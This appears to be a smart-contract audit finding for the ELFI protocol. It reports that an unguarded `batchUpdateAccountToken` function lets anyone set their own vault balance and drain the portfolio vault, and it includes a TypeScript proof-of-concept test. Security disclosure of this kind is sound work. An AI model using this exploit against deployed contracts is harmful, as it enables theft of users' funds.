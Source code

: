 Active Punch Jellyfish

high

# Anyone can change the balance of an account to drain the entire portfolio vault

## Summary
Anyone can call `batchUpdateAccountToken` to update their balance in portfolio vault without depositing the tokens. 
## Vulnerability Detail
Simply call the function with desired amounts and withdraw the funds from portfolio vault

**Coded PoC:**
```typescript
it("Anyone Can change the balance as wish", async function () {
		const usdcAmount = precision.token(1000, 6);
		// do this so that the user0 account is exists
		await deposit(fixture, {
			account: user0,
			token: usdc,
			amount: usdcAmount,
		});

		// change the balance as you wish
		const updateAccParams = {
			account: user0.address,
			tokens: [usdcAddr, wbtcAddr],
			changedTokenAmounts: [
				precision.token(100_000, 6), // USDC with 6 decimals
				precision.token(100), // WBTC with default 18 decimals
			],
		};

		await accountFacet.connect(user0).batchUpdateAccountToken(updateAccParams);

		const accountInfo = await accountFacet.getAccountInfo(user0.address);
		console.log(
			"Account info before execute and after create request",
			accountInfo
		);
	});
```
## Impact
All funds in portfolio vault can be drained. 
## Code Snippet
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/facets/AccountFacet.sol#L68-L71
## Tool used

Manual Review

## Recommendation
I am guessing this function should not be existed and here for test purposes, missing access control or missing the actual token transfer. Without knowing the exact reason why this function is here it is not possible to give any recommendations. 